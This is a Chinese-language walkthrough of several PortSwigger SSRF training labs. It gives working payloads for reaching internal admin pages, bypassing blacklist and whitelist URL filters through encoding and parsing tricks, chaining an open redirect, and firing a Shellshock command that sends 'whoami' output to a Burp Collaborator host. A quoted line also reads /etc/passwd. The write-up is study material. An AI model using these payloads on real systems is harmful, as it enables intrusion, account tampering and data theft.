

[TOC]

#### 1. Basic SSRF against the local server

> an attacker can modify the request to specify a URL local to the server itself. For example:
>
> ```http
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=http://localhost/admin
> ```
> 
> Now of course, the attacker could just visit the /admin URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the /admin URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

这道题在检查库存时，抓包，发现了：

`stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

那么可以尝试用这个去访问其他机密网址。我们在直接访问`/admin`时提醒没有权限，用这个API去试试。

`stockApi=http://localhost/admin`

我们就得到了网站。并且发现了需要删除的账户。`<a href="/admin/delete?username=carlos">Delete</a>`

POC：`stockApi=http://localhost/admin/delete?username=carlos`

#### 2. Basic SSRF against another back-end system

* 要求：扫描192.168.0.x:8080端口，并且删除carlos。
* 手段：从库存系统获取内部数据。

在查询库存的地方抓包，可以看到有stockApi：

```
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

猜测这个是可以改变的。

用这个去爆破。


返回状态是404，说明这个ip是存在的，只是没有找到网站（我也没有输入网站）。

这时访问这个网站：`stockApi=http://192.168.0.125:8080/admin`

成功得到了网站：

```html
<span>carlos - </span>
<a href="/http://192.168.0.125:8080/admin/delete?username=carlos">Delete</a>
</div>
<div>
<span>wiener - </span>
<a href="/http://192.168.0.125:8080/admin/delete?username=wiener">Delete</a>
</div>
```

所以payload为：`stockApi=http://192.168.0.125:8080/admin/delete?username=carlos`

#### 3. SSRF with blacklist-based input filter

* 要求：请更改库存检查URL以访问位于`http://localhost/admin`的管理界面，并删除用户carlos。这道题有两个比较弱的防御。

在尝试的过程中，发现`localhost`和`127.0.0.1`都被禁止了。

这里尝试用：

* 16进制：`0x7f.0.0.1`和`0x7f000001`

* 8进制：`0177.0.0.1`和`017700000001`

* 10进制：`2130706433`

都不行。

> - Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
> - Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
> - Obfuscating blocked strings using URL encoding or case variation.

再次尝试`127.1`还是不行。

第二个方法肯定是不可行的（太麻烦了）。

那就只剩第三个方法了。

* 第一个：将`admin`改成`Admin`或`adMin`等，尝试用大小写来混淆。

* 第二个：将`admin`进行两次url编码。

两种方法都可以（配合十进制的ip或者`127.1`）。

剩下的就是删除carlos了，和前面一样。

#### 4. SSRF with whitelist-based input filter

这道题是白名单绕过。

> - You can embed credentials in a URL before the hostname, using the `@` character. For example: `https://expected-host@evil-host`.
> - You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`.
> - You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`.
> - You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
> - You can use combinations of these techniques together.

* 要求：请更改库存检查URL以访问位于`http://localhost/admin`的管理界面，并删除用户carlos。

* 先尝试：`stockApi=http://stock.weliketoshop.net`

    返回："Could not connect to external stock check service"

    再尝试：`stockApi=http://127.0.0.1`

    发现返回了："External stock check host must be stock.weliketoshop.net"

    说明只能从`stock.weliketoshop.net`进去。

* 尝试绕过：
    * `stockApi=http://stock.weliketoshop.net@localhost/admin`，不行
    * `stockApi=http://localhost\stock.weliketoshop.net/admin`，`\`被禁止了
    * `stockApi=http://localhost#stock.weliketoshop.net/admin`，不行
    * `stockApi=http://stock.weliketoshop.net@%6c%6f%63%61%6c%68%6f%73%74/admin`，不行
    * `stockApi=http://stock.weliketoshop.net@%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/admin`，不行

* 我一开始以为是`@`被禁止了，然后试了一下：

    `stockApi=http://localhost@stock.weliketoshop.net/admin`

    发现这个没有被禁止。说明`@`并没有被禁止。

    又尝试了一下：`stockApi=http://localhost#@stock.weliketoshop.net/admin`

    不出意料的被禁止了。

    尝试将`#`进行二次编码。

    `stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin`通过了。

    这里猜测在检查ip的时候，将上面的url进行一次url解码，变成`http://localhost%23@stock.weliketoshop.net/admin`，这个时候检查ip，发现是`stock.weliketoshop.net`，于是通过了检查，之后查询库存的时候，又进行了一次url解码，变成了`http://localhost#@stock.weliketoshop.net/admin`，这里查询的便是`localhost`

* payload:`stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos`

#### 5. SSRF with filter bypass via open redirection vulnerability

* 要求：访问`http://192.168.0.12:8080/admin`，并删除carlos。

这里需要找到那个重定向。发现位置在nextProduct。

`/product/nextProduct?currentProductId=1&path=/product?productId=2`

payload:`stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos`

> This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

#### 6. Blind SSRF with out-of-band detection

> This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
>
> To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

直接修改Referer，通过。



#### 7. Blind SSRF with Shellshock exploitation

> This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
>
> To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the user.

我只知道referer字段可以用，但是不知道怎么用。

去搜了一下[Shellshock](https://blog.csdn.net/Anprou/article/details/72819989)。

> 用Burpsuite来进行测试。
>
> 修改http协议中的User-Agent字段为:
>
> ```
> () { :; };echo;/bin/cat /etc/passwd
> ```

这个[文档](https://wooyun.js.org/drops/Shellshock%E6%BC%8F%E6%B4%9E%E5%9B%9E%E9%A1%BE%E4%B8%8E%E5%88%86%E6%9E%90%E6%B5%8B%E8%AF%95.html)详细介绍了为什么要放到User-Agent里面。

> 鉴于Bash是大多数Linux系统（以及OSX）上默认的shell，这个漏洞就意味着，把有害数据编入环境变量，传到服务器端，触发服务器运行Bash脚本，就完成了攻击（passing an poisoned environment variable through to a server running a CGI script could trivially be compromised）。
>
> 举个例子，HTTP协议的头User-Agent通常是通过环境变量`HTTP_USER_AGENT`来传递的，这意味使用以下命令就可以测试这个漏洞了：
>
> ```
> #!bash
> curl -H 'User-Agent:() { :; }; echo -e "\r\nVul\r\n"' http://example.com/some-cgi/script.cgi
> ```
>
> 对于不传递`User-Agent`的服务器来说，常常还有其他受攻击的可能——比如`Cookie`，`Referer`或者请求本身。另外，这个bug不仅仅影响CGI脚本和Apache——如果其他程序也收到并传递了有害的环境变量（比如ssh服务会接收TERM或DISPLAY环境变量），然后这些进程再运行一个Bash脚本（或通过system()调用来执行），同样的漏洞也会被利用。

然后我们对漏洞网页进行访问（使用了Collaborator Everywhere插件）：

Edited request:

```http
GET /product?productId=1 HTTP/1.1
Host: ac451f611e2f180680dc0fde006f0009.web-security-academy.net
Connection: close
Cache-Control: no-transform
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@xwxia7u5xvz4mtbi0nsdujf4bvhv5k.burpcollaborator.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://vtsg75r3utw2jr8gxlpbrhc28tev2k.burpcollaborator.net/ref
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=BXkvBYF57oEas0Gxb5s5plYApdG3RFSC
Forwarded: for=spoofed.grb15qposeunhc61v6nwp2an6ec50u.burpcollaborator.net;by=spoofed.grb15qposeunhc61v6nwp2an6ec50u.burpcollaborator.net;host=spoofed.grb15qposeunhc61v6nwp2an6ec50u.burpcollaborator.net
True-Client-IP: spoofed.mvl79wtuwkytlia7zcr2t8etakgc41.burpcollaborator.net
X-Forwarded-For: spoofed.78dsmh6f95bey3nscx4n6tren5tyhn.burpcollaborator.net
X-Wap-Profile: http://b5hwjl3j698iv7kw911r3xoik9q3es.burpcollaborator.net/wap.xml
CF-Connecting_IP: spoofed.qpjb30nyqosxfm4btgl6nc8x4oajy8.burpcollaborator.net
Client-IP: spoofed.v40gi5235t72urjg8l0b2hn2jtppde.burpcollaborator.net
Contact: root@tqne43o1rrt0gp5eujm9of905rbozd.burpcollaborator.net
X-Originating-IP: spoofed.4mrp0ekcn2pbc01pquikkq5b1270vp.burpcollaborator.net
X-Client-IP: spoofed.nsj86xqvtlvuij78wdo3q9bu7ldk19.burpcollaborator.net
From: root@gyi1cqwoze1nocd126uww2hndejf74.burpcollaborator.net
X-Real-IP: spoofed.upnf34n2qss1fq4ftklang814savyk.burpcollaborator.net
```

在插件里面查看返回内容：

```http
GET /ref HTTP/1.1
Host: vtsg75r3utw2jr8gxlpbrhc28tev2k.burpcollaborator.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@xwxia7u5xvz4mtbi0nsdujf4bvhv5k.burpcollaborator.net
Accept-Encoding: gzip
```

发现返回了`User-Agent`，说明`User-Agent`通过了环境变量`HTTP_USER_AGENT`来传递。所以这里可以使用Shellshock漏洞。

 将`User-Agent`字段改成：`() { :; };访问burp collaborator的命令`应该是可以收到响应的。

这里使用`nslookup`命令来连接：`/usr/bin/nslookup $(whoami).5gmbmv7dygwymmxy7nst3xw3iuokc9.burpcollaborator.net`

POC:

```http
GET /product?productId=1 HTTP/1.1
Host: ac451f611e2f180680dc0fde006f0009.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; };/usr/bin/nslookup $(whoami).5gmbmv7dygwymmxy7nst3xw3iuokc9.burpcollaborator.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§§:8080
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=BXkvBYF57oEas0Gxb5s5plYApdG3RFSC
```

这里进行爆破。

得到了结果：`peter-760cz5.5gmbmv7dygwymmxy7nst3xw3iuokc9.burpcollaborator.net.`

